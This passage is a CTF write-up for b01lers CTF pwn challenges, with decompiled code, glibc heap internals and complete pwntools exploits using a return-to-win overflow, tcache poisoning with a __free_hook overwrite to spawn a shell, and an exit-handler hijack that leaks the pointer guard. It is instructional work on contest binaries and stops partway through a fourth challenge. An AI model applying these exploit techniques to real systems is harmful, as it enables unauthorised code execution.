

# b01lers CTF


Participated under the banner of <mark style="color:blue;">**HCS**</mark>, ranked <mark style="color:yellow;">31</mark> out of <mark style="color:yellow;">393</mark> teams.


<table><thead><tr><th width="248">Challenge</th><th width="244">Category</th><th width="152" align="center">Points</th><th align="center">Solves</th></tr></thead><tbody><tr><td>shall-we-play-a-game</td><td>Binary Exploitation</td><td align="center">258 pts</td><td align="center">129</td></tr><tr><td>easy-note</td><td>Binary Exploitation</td><td align="center">425 pts</td><td align="center">50</td></tr><tr><td>medium-note</td><td>Binary Exploitation</td><td align="center">459 pts</td><td align="center">30</td></tr><tr><td>seeing-red</td><td>Binary Exploitation</td><td align="center">461 pts</td><td align="center">29</td></tr><tr><td>arm-and-a-leg</td><td>Binary Exploitation</td><td align="center">480 pts</td><td align="center">16</td></tr></tbody></table>

## shall-we-play-a-game

### Description

> Shall we play a game?
>
> `nc gold.b01le.rs 4004`

### Binary Analysis

given a binary, glibc and dockerfile, lets do some footprinting

```bash
└──╼ [★]$ tree .
.
├── chal
├── Dockerfile
├── exploit.py
└── flag.txt

└──╼ [★]$ file chal 
chal: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=965b8ed1abf621f44bb3c06b75e6b7b55e519de0, for GNU/Linux 3.2.0, not stripped

└──╼ [★]$ pwn checksec chal
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

it's quite a warmup challenge, it only has two function namely `main()` and the `win()` function

```c
undefined8 main(void)

{
  char local_b8 [48];
  char local_88 [48];
  char local_58 [16];
  char buffer [64];
  
  setbuf(stdout,(char *)0x0);
  puts("GREETINGS PROFESSOR FALKEN.");
  fgets(local_58,0x13,stdin);
  puts("HOW ARE YOU FEELING TODAY?");
  fgets(local_88,0x23,stdin);
  puts(
      "EXCELLENT. IT\'S BEEN A LONG TIME. CAN YOU EXPLAIN THE\nREMOVAL OF YOUR USER ACCOUNT ON 6/23/ 73?"
      );
  fgets(local_b8,0x23,stdin);
  puts("SHALL WE PLAY A GAME?");
  fgets(buffer,86,stdin);
  return 0;
}
```

we can clearly see the obvious buffer overflow and the last `fgets()`

```c
void global_thermo_nuclear_war(void)

{
  char local_118 [264];
  FILE *local_10;
  
  local_10 = (FILE *)FUN_004010a0("flag.txt",&DAT_00402008);
  if (local_10 == (FILE *)0x0) {
    puts("flag.txt not found");
  }
  else {
    fgets(local_118,0x100,local_10);
    puts(local_118);
  }
  return;
}
```

and this seemingly long name function is the `win()` function which prints the content of flag.txt

### Exploitation

since, canary and also no PIE, we can immediately overwrite RIP to the win function.

<figure><figcaption></figcaption></figure>

Below is the full exploit script:


```python
#!/usr/bin/env python3
from pwn import *

# =========================================================
#                          SETUP                         
# =========================================================
exe = './chal'
elf = context.binary = ELF(exe, checksec=True)
# libc = './libc.so.6'
# libc = ELF(libc, checksec=False)
context.log_level = 'debug'
context.terminal = ["tmux", "splitw", "-h"]
host, port = 'gold.b01le.rs', 4004

def initialize(argv=[]):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript)
    elif args.REMOTE:
        return remote(host, port)
    else:
        return process([exe] + argv)

gdbscript = '''
init-pwndbg
'''.format(**locals())

# =========================================================
#                         EXPLOITS
# =========================================================
def exploit():
    global io
    io = initialize()
    rop = ROP(exe)

    io.sendlineafter(b'FALKEN', b'cawk')
    io.sendlineafter(b'?', b'cawk')
    io.sendlineafter(b'?', b'cawk')

    offset = 72
    payload = flat({
        offset: [
            elf.sym['global_thermo_nuclear_war']
        ]
    })
    io.sendlineafter(b'?', payload)

    io.interactive()
    
if __name__ == '__main__':
    exploit()
```



**Flag:** _bctf{h0w\_@bo0ut\_a\_n1ce\_g@m3\_0f\_ch3ss?\_ccb7a268f1324c84}_


***

## easy-note

### Description

> It's a note editor, what could possibly go wrong?
>
> `nc gold.b01le.rs 4001`

### Binary Analysis

given a binary, glibc and dockerfile, lets do some footprinting

```bash
└──╼ [★]$ tree .
.
├── chal
├── Dockerfile
├── exploit.py
├── flag.txt
├── ld-2.27.so
└── libc.so.6

└──╼ [★]$ file chal 
chal: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /tmp/ld-2.27.so, BuildID[sha1]=1671f51c231e09e7084decf9e3dbe368499206a7, for GNU/Linux 3.2.0, stripped

└──╼ [★]$ pwn checksec chal
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

the provided libc is 2.27, so `__malloc_hook`, `__free_hook` and other hooks are still available, which we will use later on

on `main()`, it runs some `setup()` and goes into this function below&#x20;

```c
void _main(void)

{
  long in_FS_OFFSET;
  char c;
  undefined8 kuki;
  
  kuki = *(undefined8 *)(in_FS_OFFSET + 0x28);
  do {
    puts("-----Options---");
    puts("-----Alloc-----");
    puts("-----Free------");
    puts("-----View------");
    puts("-----Edit------");
    puts("-----Exit------");
    puts("-----Resize----");
    putchar(0x3e);
    __isoc99_scanf("%c",&c);
    switch(c) {
    case '1':
      alloc();
      break;
    case '2':
      free();
      break;
    case '3':
      view();
      break;
    case '4':
      edit();
      break;
    case '5':
                    /* WARNING: Subroutine does not return */
      exit(0);
    case '6':
      resize();
    }
  } while( true );
}

```

the function acts as the controller to which action we wish to take. the challenge is the standard CRUD Heap type of challenges&#x20;

```c
void alloc(void)

{
  int idx;
  size_t __size;
  long *chunk;
  
  idx = get_idx();
  if (idx != -1) {
    __size = get_size();
    chunk = (long *)malloc(__size);
    (&CHUNKS)[idx] = chunk;
  }
  return;
}
```

the 1st option, allocates a dynamic memory at heap with controlled size using malloc.

```c
void free(void)

{
  int idx;
  
  idx = get_idx();
  if (idx != -1) {
    free((&CHUNKS)[idx]);
  }
  return;
}
```

2nd option allows us to free a chunk, the first vulnerability lies here as the it doesn't nullify or delete the chunk pointer from the global array.

```c
void view(void)

{
  int idx;
  
  idx = get_idx();
  if ((idx != -1) && (idx < 0x20)) {
    puts((char *)(&CHUNKS)[idx]);
  }
  return;
}
```

3rd option allows us to read the chunk's data, we're able to do UAF on a free'd chunk since the pointer is not deleted on free.&#x20;

```c
void edit(void)

{
  int idx;
  int size;
  
  idx = get_idx();
  if (idx != -1) {
    size = get_size();
    read(0,(&CHUNKS)[idx],(long)size);
  }
  return;
}
```

4th option allows us to fill the chunk with some data, however the size is not dependent on the chunk's size rather an arbitrary amount of size. this allows us to do heap overflow possibly overwriting other chunk's metadata.

since we have free that doesn't delete pointer, we're also able to corrupt the chunk's  metadata when it's been free'd.

```c
void resize(void)

{
  int idx;
  size_t __size;
  long *chunk;
  
  idx = get_idx();
  if (idx != -1) {
    chunk = (&CHUNKS)[idx];
    __size = get_size();
    chunk = (long *)realloc(chunk,__size);
    if (chunk == (long *)0x0) {
      puts("Realloc failed\n");
    }
    else {
      (&CHUNKS)[idx] = chunk;
    }
  }
  return;
}

```

6th option allows to do realloc. realloc can act as malloc and as well as free.

* `realloc(NULL, size)` => `malloc();` returns chunk
* `realloc(chunk, NULL)` => `free();` returns 0x0
* `realloc(chunk, size)` => `free(chunk); new_chunk = malloc();` returns new\_chunk

&#x20; and 5th option just exits

```c
case '5':
                /* WARNING: Subroutine does not return */
  exit(0);
```

### Exploitation

with abundances obvious vulnerabilities. there might be more than one way to solve this, but I find `tcache-poisoning` the easiest.&#x20;

since libc is version 2.27 I'll decide to overwrite one of the hooks.

to do that, we'll need a libc address, we're going to allocate a relatively huge chunk and an additional one small chunk, we'll then free the huge chunk so it'll go to the unsorted bin.&#x20;

the small chunk acts as a barrier to separate the huge chunk and the wilderness. this is to prevent the huge chunk to be come consolidated with the wilderness upon free instead of going to the bin.

upon reading the free'd chunk's data, we'll get a libc `main_arena` leak.

```python
alloc(0, 0x500)
alloc(1, 0x10)

free(0)
view(0)
```

the next step is `tcache-poisoning` to get an arbitrary write primitive. I won't go to cover the details cause I've covered this topic in this [writeup](../2023/cigits/afafafaf.md).

to summarize, we'll basically overwrite a free'd chunk's fd so it'll think the next free chunk to be recycle is whatever we overwrite it with. we can then overwrite one of the hooks with system, and run the hook with a chunk that contains `/bin/sh` to gain shell.

<figure><figcaption></figcaption></figure>

Below is the full exploit script:


```python
#!/usr/bin/env python3
from pwn import *

# =========================================================
#                          SETUP                         
# =========================================================
exe = './chal_patched'
elf = context.binary = ELF(exe, checksec=True)
libc = './libc.so.6'
libc = ELF(libc, checksec=False)
context.log_level = 'debug'
context.terminal = ["tmux", "splitw", "-h"]
host, port = 'gold.b01le.rs', 4001

def initialize(argv=[]):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript)
    elif args.REMOTE:
        return remote(host, port)
    else:
        return process([exe] + argv)

gdbscript = '''
init-pwndbg
'''.format(**locals())

# =========================================================
#                         EXPLOITS
# =========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled

def alloc(idx, size):
    io.sendline(b'1')
    io.sendlineafter(b'Where?', str(idx).encode())
    io.sendlineafter(b'size?', str(size).encode())

def free(idx):
    io.sendline(b'2')
    io.sendlineafter(b'Where?', str(idx).encode())

def view(idx):
    io.sendline(b'3')
    io.sendlineafter(b'Where?', str(idx).encode())

def edit(idx, size, data):
    io.sendline(b'4')
    io.sendlineafter(b'Where?', str(idx).encode())
    io.sendlineafter(b'size?', str(size).encode())
    sleep(0.2)
    io.send(data)

def exploit():
    global io
    io = initialize()
    rop = ROP(exe)

    alloc(0, 0x500)
    alloc(1, 0x10)

    free(0)
    view(0)
    
    leak = io.recvline().strip()
    main_arena = u64(leak.ljust(8, b'\x00')) 
    libc.address = main_arena - 0x3afca0

    alloc(0, 0x500)

    alloc(2, 0x20)
    alloc(3, 0x20)
    free(3)

    offset = 40
    payload = flat({
        offset: [
            p64(0x31),
            p64(libc.sym['__free_hook'])
        ]
    })
    edit(2, len(payload), payload)

    alloc(4, 0x20)
    edit(4, 8, b'/bin/sh\x00')

    alloc(5, 0x20)
    edit(5, 8, p64(libc.sym['system']))

    free(4)

    sleep(0.5)
    io.sendline(b'cat flag*')

    info('leak: %#x', main_arena)
    info('libc base: %#x', libc.address)
    io.interactive()
    
if __name__ == '__main__':
    exploit()
```



**Flag:** _bctf{j33z\_1\_d1dn7\_kn0w\_h34p\_1z\_s0\_easy}_


***

## medium-note

### Description

> Mistakes were made last time. It's a note editor FFS, what could possibly go wrong?
>
> `nc gold.b01le.rs 4002`

### Binary Analysis

given a binary, glibc and dockerfile, lets do some footprinting

```bash
└──╼ [★]$ tree .
.
├── chal
├── chal_patched
├── Dockerfile
├── exploit.py
├── flag.txt
├── ld-2.36.so
├── libc-2.36.so.6
├── libc.so.6 -> libc-2.36.so.6
└── test.py

└──╼ [★]$ file chal
chal: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ld-2.36.so, for GNU/Linux 3.2.0, BuildID[sha1]=b2ffef987889d529a7867313c69f6c6b46940ae5, stripped

└──╼ [★]$ pwn checksec chal
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'.'
```

running the binary it seems very similar to the previous challenge, just with newer libc version.

```bash
└──╼ [★]$ ./chal_patched 
-----Options---
-----Alloc-----
-----Free------
-----View------
-----Edit------
-----Exit------
-----Resize----
```

decompiling it ghidra, it turns out some of the implementations are different. I will show you the different ones and also some new hidden function that didn't exist on the previous one, other than that it will be still the same as the previous challenge.

```c
void edit(void)

{
  int idx;
  ulong size;
  
  idx = get_idx();
  if ((idx != -1) && (idx < 0x20)) {
    size = malloc_usable_size((&CHUNKS)[idx]);
    if (size < 0x20) {
      size = 0x20;
    }
    if (0x100 < size) {
      size = 0x1000;
    }
    printf("Size for edit is %zu\n",size);
    read(0,(&CHUNKS)[idx],size);
  }
  return;
}
```

this time, option 4 adds additional questionable logic, that will still enables a heap overflow, though I won't event take advantage of it because I prefer `tcache-poisoning`.

also apparently there's a hidden 7th option that the menu didn't print

```c
void main()

{

// ...
    switch(c) {
    // ...
    case '7':
      leak();
    }
// ...
}

void leak(void)

{
  printf("Address: %p\n",win);
  return;
}

```

it simply prints the address of `win()` which in turn defeat the purpose of PIE. looking at `win()`, it is the win function.

```c
void win(void)

{
  execve("/bin/cat",&PTR_s_/flag.txt_00104010,(char **)&DAT_00104160);
  return;
}
```

and seems to be our goal, but with the trivial hooks are gone, what should we do?

### Exploitation

#### info leaks

so overall, nothing much change but the addition of `win()` and libc 2.36. one thing to note is that the `main()` will never return as the only option to break out of the loop is through option 5 which is `exit()`. it means ROP through the stack as I did in this [writeup](amateursctf.md#heaps-of-fun) will most likely not work here. &#x20;

If I try hard enough to ROP to the other functions it might work, but I wanna try something new, and the `exit()` reminds me of a exploitation techniques I know the existence of but never dig dive deep enough or try it out myself ...

it's a technique that hijack a lists of cleanup functions that is called when the binary exit.  &#x20;

before going deeper into the exploitation, let's do some info leaks to get the basis of our exploit:&#x20;

```python
# ===============
# ELF BASE LEAK
# ===============
io.sendline(b'7')
io.recvuntil(b'0x')
win = int(io.recvline().strip(), 16) 
elf.address = win - 0x159f

# ===============
# LIBC BASE LEAK
# ===============
alloc(0, 0x500)
alloc(1, 0x10)
free(0)

view(0)
leak = io.recvline().strip()
main_arena = u64(leak.ljust(8, b'\x00')) 
libc.address = main_arena - 0x1d1cc0
alloc(0, 0x500) # clean bins

# ===============
# HEAP BASE LEAK
# ===============
alloc(2, 0x10)
free(1)

view(1)
leak = u64(io.recvline().strip().ljust(8, b'\x00'))
heap = leak << 12
alloc(2, 0x10)  # clean bins
```

I like to start the exploit with a fresh bins, so after the leaking the addresses, I like to allocate the chunks again. Below is what we have before exploit

<figure><figcaption></figcaption></figure>

#### how exit handler works

after a bit of googling I stumbled upon these writeup which the basis of my solution here

* [https://jackfromeast.site/2023-06/see-ctf-2023-writeup.html#babysheep](https://jackfromeast.site/2023-06/see-ctf-2023-writeup.html#babysheep)
* [https://ctftime.org/writeup/34804](https://ctftime.org/writeup/34804)

I will try to summarise and explain it as best as I could

when our binary calls glibc `exit()`, it doesn't immediately terminate the process, instead it's actually a wrapper to another call as we can see from its source code:

```c
void exit (int status)
{
  __run_exit_handlers (status, &__exit_funcs, true, true);
}
```

we can also verify this within GDB

```bash
pwndbg> break *exit
Breakpoint 1 at 0x7f68a6933de0: file exit.c, line 142.
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

so what is this `__exit_funcs` ?

```c
enum
{
  ef_free,  /* `ef_free' MUST be zero!  */
  ef_us,
  ef_on,
  ef_at,
  ef_cxa
};

struct exit_function
  {
    /* `flavour' should be of type of the `enum' above but since we need
       this element in an atomic operation we have to use `long int'.  */
    long int flavor;
    union {
      void (*at) (void);
      struct {
          void (*fn) (int status, void *arg);
          void *arg;
      } on;
      struct {
          void (*fn) (void *arg, int status);
          void *arg;
          void *dso_handle;
      } cxa;
    } func;
  };
  
struct exit_function_list
  {
    struct exit_function_list *next;
    size_t idx;
    struct exit_function fns[32];
  };
```

so `__exit_func` contains a pointer to a singly linked list of `exit_function_list`.   the list holds functions to be executed before the program exits. the functions in the list itself has different convention depending on the flavour/enum.

for you who prefer visuals, I've tried my best below

<figure><figcaption></figcaption></figure>

if we follow `__run_exit_handlers` within GDB, we can confirm this.&#x20;

<div data-full-width="false"><figure><figcaption></figcaption></figure></div>

as you can see it calls `_dl_fini` as in fact, it is the first default cleanup function.&#x20;

we can further prove this by looking what's inside of the pointer in `__exit_func`  to examine our first  `exit_function_list` which is a symbol in libc known as `initial`.

<figure><figcaption></figcaption></figure>

wait what? why is the function pointer seems broken?

#### function pointer obfuscation

it turns out the function pointer is encrypted with a key in `fs:0x30` which is only known at runtime. according to this [stackoverflow ](https://stackoverflow.com/questions/10354063/how-to-use-a-logical-address-with-an-fs-or-gs-base-in-gdb)question, in general we can't even read the key in GDB.

thankfully someone already reversed the encryption and decryption algorithm as follows:

```python
# Rotate left: 0b1001 --> 0b0011
rol = lambda val, r_bits, max_bits: \
    (val << r_bits%max_bits) & (2**max_bits-1) | \
    ((val & (2**max_bits-1)) >> (max_bits-(r_bits%max_bits)))
 
# Rotate right: 0b1001 --> 0b1100
ror = lambda val, r_bits, max_bits: \
    ((val & (2**max_bits-1)) >> r_bits%max_bits) | \
    (val << (max_bits-(r_bits%max_bits)) & (2**max_bits-1))

# encrypt a function pointer
def encrypt(v, key):
    return rol(v ^ key, 0x11, 64)
```

since we know the original value and the encrypted value, we can obtain back the key using `ror` as follows:


`key = ror(encrypted_func_ptr, 0x11, 64) ^ func_ptr`


```python
        # encrypted pointer                 # _dl_fini  
key = ror(0xf46f407ba12638b9, 0x11, 64) ^ 0x7fea02a558f0 
print(hex(key))
```

```bash
└──╼ [★]$ python test.py 
KEY
0x1c5c85dda2988863
```

using the known key we can encrypt the obfuscated pointer and verifies it is `_dl_fini`&#x20;


in various sources, some call it _<mark style="color:yellow;">**key**</mark>_, some call it _<mark style="color:yellow;">**pointer guard**</mark>_. \
\
note that they're referring to the same thing.


```python
print("ENCRYPTED")
encrypted = encrypt(0x7fea02a558f0, key)
print(hex(encrypted))
```

<figure><figcaption></figcaption></figure>

and so, did we just defeat the obfuscation?

sadly no, even though we can read the encrypted pointer since it's within libc's address range, apparently `_dl_fini` is located on the linker's memory range. &#x20;

<figure><figcaption></figcaption></figure>

I did some digging and googling and found this two amazing writeup:

* [https://binholic.blogspot.com/2017/05/notes-on-abusing-exit-handlers.html](https://binholic.blogspot.com/2017/05/notes-on-abusing-exit-handlers.html)
* [https://ctftime.org/writeup/35951](https://ctftime.org/writeup/35951)

Quote:

> Like we saw in PTR\_MANGLE() and PTR\_DEMANGLE(), it all has to do with the structure "tcbhead\_t". This structure is what's stored at FS, which correspond to the per thread data (TCB probably for Thread Control Block).
>
> So at fs:0x30 we get the pointer\_guard.
>
> It's the pointer guard as defined in "sysdeps/x86\_64/nptl/tls.h" in the structure "tcbhead\_t".

> (Un)fortunately, glibc has implemented an additional protection: pointer guard. This sounds similar to the safe linking mechanism but relies on a secret key instead of the memory location of the pointer to be encrypted.
>
> The key is actually stored in memory in the thread control block (TCB), the same place that stack canaries are stored:

So even though we don't have  `_dl_fini` to restore the encryption key, we don't even need it since the key itself is stored at the Thread Control Block (TCB) and it's located at a fixed offset from libc.&#x20;


the TCB is also the location where the stack canary is stored


<figure><figcaption></figcaption></figure>

and apparently it is located just right before libc's base address, to confirm I tried running it again with another randomized address, and it returns the same offset.&#x20;

#### chaining the exploit

at the [start](b01lers-ctf.md#info-leaks) we already have some leaks, we're going to use the same `tcache-poisoning` method from the [previous challenge](b01lers-ctf.md#easy-note). however, instead of overwriting hooks, we're going to allocate a chunk to the TCB to leak the pointer guard.&#x20;

```python
# ===============
# PTR GUARD LEAK
# ===============
# preparing chunk for tcache poisoning
ptr_guard_addr = libc.address - 0x2890 
alloc(3, 0x10)
alloc(4, 0x10)
alloc(5, 0x10)
free(4)
free(3)

# poisoning tcache
target = mangle(heap, ptr_guard_addr)   # address in libc, (Thread Block Control) TBC where it also stores canary
edit(3, p64(target))

# arbitrary chunk allocation
alloc(6, 0x10)
alloc(7, 0x10) # target

view(7)
ptr_guard = u64(io.recvline().strip())
```

<figure><figcaption></figcaption></figure>

with the key leaked, next we're going to `tcache-poisoning` to allocate a chunk to the first function array list which is `initial` to gain write primitive&#x20;

we'll also do the poisoning with a different chunk size since it's already corrupted by the previous poisoning, just to start fresh and avoid potential errors.

```python
# preparing chunk for tcache poisoning
alloc(8, 0x20)
alloc(9, 0x20)
alloc(10, 0x20)
free(9)
free(8)

# poisoning tcache
target = mangle(heap, libc.sym['initial'])
edit(8, p64(target))

# arbitrary chunk allocation
alloc(11, 0x20)
alloc(12, 0x20) # target
```

what do we overwrite the function with? well, we do have a win function.&#x20;


don't forget to encrypt the function pointer before overwriting it.


```python
# overwriting exit funcs
fn = encrypt(win, ptr_guard)
payload = flat(
    0x0,    # *next
    0x1,    # count
    0x4,    # type/flavour (cxa)
    fn,     # *func ptr
)
edit(12, payload)

# trigger exit (win at cleanup)
sleep(0.2)
io.sendline(b'5')
```

run it againts the remote server

<figure><figcaption></figcaption></figure>


#### what if we don't have win ?

we'll then have to figure out how to execute `system(/bin/sh)`.

`exit_function` particularly have different function convention calls, we're interested in which where 1st parameter takes a `char *`, which corresponds to this type:

```c
  struct {
      void (*fn) (void *arg, int status);
      void *arg;
      void *dso_handle;
  } cxa;
```

`cxa` corresponds the 4th enum. we'll just have to pass `/bin/sh` to `*arg` which just right after the function pointer. we'll change our payload as follows:

```python
# overwriting exit funcs
fn = encrypt(win, libc.sym['system'])
payload = flat(
    0x0,    # *next
    0x1,    # count
    0x4,    # type/flavour (cxa)
    fn,     # *func ptr
    next(libc.search(b'/bin/sh\x00')), # rdi
    0x0,    # rsi
)
edit(12, payload)
```

<figure><figcaption></figcaption></figure>


if you try this with the current exploit, it won't work since the edit size is 0x20 and it won't be enough to set up rdi and rsi. the overall exploit have to change to gain the edit size bigger to make up for the parameters than 0x20 for it.


Below is the full exploit script:


```python
#!/usr/bin/env python3
from pwn import *

# =========================================================
#                          SETUP                         
# =========================================================
exe = './chal'
elf = context.binary = ELF(exe, checksec=True)
libc = './libc-2.36.so.6'
libc = ELF(libc, checksec=False)
ld = './ld-2.36.so'
context.log_level = 'debug'
context.terminal = ["tmux", "splitw", "-h"]
host, port = 'gold.b01le.rs', 4002

def initialize(argv=[]):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript)
    elif args.REMOTE:
        return remote(host, port)
    else:
        return process([ld, exe] + argv)

gdbscript = '''
init-pwndbg
'''.format(**locals())
# break *__run_exit_handlers+259

# =========================================================
#                         EXPLOITS
# =========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled

def alloc(idx, size):
    log.info(f'MALLOC[{idx}]({size})')
    io.sendline(b'1')
    sleep(0.1)
    io.sendlineafter(b'Where?', str(idx).encode())
    sleep(0.1)
    io.sendlineafter(b'size?', str(size).encode())

def free(idx):
    log.info(f'FREE[{idx}]')
    io.sendline(b'2')
    sleep(0.1)
    io.sendlineafter(b'Where?', str(idx).encode())

def view(idx):
    log.info(f'VIEW[{idx}]')
    io.sendline(b'3')
    sleep(0.1)
    io.sendlineafter(b'Where?', str(idx).encode())

def edit(idx, data):
    log.info(f'EDIT[{idx}]')
    io.sendline(b'4')
    sleep(0.2)
    io.sendlineafter(b'Where?', str(idx).encode())
    io.sendafter(b'edit is', data)

def demangle(val):
    mask = 0xfff << 52
    while mask:
        v = val & mask
        val ^= (v >> 12)
        mask >>= 12
    return val

def mangle(heap_addr, val):
    return (heap_addr >> 12) ^ val

# Rotate left: 0b1001 --> 0b0011
rol = lambda val, r_bits, max_bits: \
    (val << r_bits%max_bits) & (2**max_bits-1) | \
    ((val & (2**max_bits-1)) >> (max_bits-(r_bits%max_bits)))
 
# Rotate right: 0b1001 --> 0b1100
ror = lambda val, r_bits, max_bits: \
    ((val & (2**max_bits-1)) >> r_bits%max_bits) | \
    (val << (max_bits-(r_bits%max_bits)) & (2**max_bits-1))

# encrypt a function pointer
def encrypt(v, key):
    return rol(v ^ key, 0x11, 64)

def exploit():
    global io
    io = initialize()

    # ===============
    # ELF BASE LEAK
    # ===============
    io.sendline(b'7')
    io.recvuntil(b'0x')
    win = int(io.recvline().strip(), 16) 
    elf.address = win - 0x159f

    # ===============
    # LIBC BASE LEAK
    # ===============
    alloc(0, 0x500)
    alloc(1, 0x10)
    free(0)

    view(0)
    leak = io.recvline().strip()
    main_arena = u64(leak.ljust(8, b'\x00')) 
    libc.address = main_arena - 0x1d1cc0
    ptr_guard_addr = libc.address - 0x2890
    alloc(0, 0x500) # clean bins

    # ===============
    # HEAP BASE LEAK
    # ===============
    alloc(2, 0x10)
    free(1)

    view(1)
    leak = u64(io.recvline().strip().ljust(8, b'\x00'))
    heap = leak << 12
    alloc(2, 0x10)  # clean bins

    # ==========================================================================
    # EXPLOIT REFERENCES: 
    # - https://jackfromeast.site/2023-06/see-ctf-2023-writeup.html#babysheep
    # - https://ctftime.org/writeup/34804
    # - https://binholic.blogspot.com/2017/05/notes-on-abusing-exit-handlers.html
    # - https://ctftime.org/writeup/35951
    # ==========================================================================

    # ===============
    # PTR GUARD LEAK
    # ===============
    # preparing chunk for tcache poisoning
    alloc(3, 0x10)
    alloc(4, 0x10)
    alloc(5, 0x10)
    free(4)
    free(3)

    # poisoning tcache
    target = mangle(heap, ptr_guard_addr)   # address in libc, (Thread Block Control) TBC where it also stores canary
    edit(3, p64(target))

    # arbitrary chunk allocation
    alloc(6, 0x10)
    alloc(7, 0x10) # target

    view(7)
    ptr_guard = u64(io.recvline().strip())

    # =======================
    # OVERWRITE __EXIT_FUNCS
    # =======================
    # preparing chunk for tcache poisoning
    alloc(8, 0x20)
    alloc(9, 0x20)
    alloc(10, 0x20)
    free(9)
    free(8)

    # poisoning tcache
    target = mangle(heap, libc.sym['initial'])
    edit(8, p64(target))

    # arbitrary chunk allocation
    alloc(11, 0x20)
    alloc(12, 0x20) # target

    # NO NEED TO DO BELOW, WE ALREADY GOT KEY (PTR GUARD)
    # commented method below won't work because of the original function
    # is located in the linker address space, which is not in the libc (as far as I know)

    # filling padding until encrypted cleanup function ptr
    # payload = cyclic(0x18)
    # edit(12, payload)

    # # leaking encrypted cleanup function ptr
    # view(12)
    # io.recvuntil(b'faaa')
    # leak = u64(io.recvline().strip())

    # decrypting to get key
    # key = ror(leak, 0x11, 64) ^ (libc.address + 0x1ee8f0) # libc.sym['_dl_fini']

    # overwriting exit funcs
    fn = encrypt(win, ptr_guard)
    payload = flat(
        0x0,    # *next
        0x1,    # count
        0x4,    # type/flavour (cxa)
        fn,     # *func ptr
    )
    edit(12, payload)

    # trigger exit (win at cleanup)
    sleep(0.2)
    io.sendline(b'5')

    log.success('leak: %#x', leak)
    log.success('elf base: %#x', elf.address)
    log.success('chunks: %#x', elf.address + 0x4060)
    log.success('libc base: %#x', libc.address)
    log.success('exit: %#x', libc.sym['exit'] )
    log.success('ptr guard addr: %#x', ptr_guard_addr)
    log.success('ptr guard: %#x', ptr_guard)
    log.success('initial: %#x', libc.sym['initial'])
    log.success('heap base: %#x', heap)
    io.interactive()
    
if __name__ == '__main__':
    exploit()
```



**Flag:** _bctf{sm4ll\_0v3rfl0w\_1z\_571ll\_b4d\_0k4y}_


***

## seeing-red

### Description

> Didn't sleep for three nights while staring at ticketmaster waiting to get out of the Eras queue and I get sick on the day of, smh. Anyway, if you can find my ticket you can go!
>
> `nc gold.b01le.rs 4008`

### Binary Analysis

given a binary, glibc and dockerfile, lets do some footprinting

```bash
└──╼ [★]$ tree .
.
├── chal
├── Dockerfile
├── exploit.py
├── flag.txt
├── ld-linux-x86-64.so.2
└── libc.so.6


└──╼ [★]$ file chal 
chal: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=3d661ce4bdb7856594bacd10b46c78dae2a5a65f, for GNU/Linux 3.2.0, not stripped

└──╼ [★]$ pwn checksec chal 
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

the binary itself is quite small and straight forward

```c
undefined8 main(void)

{
  setbuf(stdout,(char *)0x0);
  help_me();
  printf("sooo... anyways whats your favorite Taylor Swift song? ");
  fflush(stdout);
  read(0,song,200);
  printf("Ooohh! ");
  printf(song);
  puts("Thats a good one!");
  return 0;
}
```

main calls `help_me()` and then reads to `song` global variable 200 bytes and does a naked printf. we wouldn't be able to do any format string write though with this since our input is not located at stack.

```c
undefined8 help_me(void)

{
  char buffer [64];
  
  puts("I was going to go to the eras tour, but something came up :(");
  puts("You can have my ticket! Only thing is... I forgot where I put it...");
  puts("Do you know where it could be?! ");
  fgets(buffer,100,stdin);
  fflush(stdin);
  return 0;
}
```

`help_me()` offers us a buffer overflow.

there's also another function that's never called anywhere and seemingly seems like the win condition

```c
void use_ticket(void *dest)

{
  FILE *fp;
  size_t r;
  
  fp = (FILE *)_fopen("flag.txt","r");
  if (fp == (FILE *)0x0) {
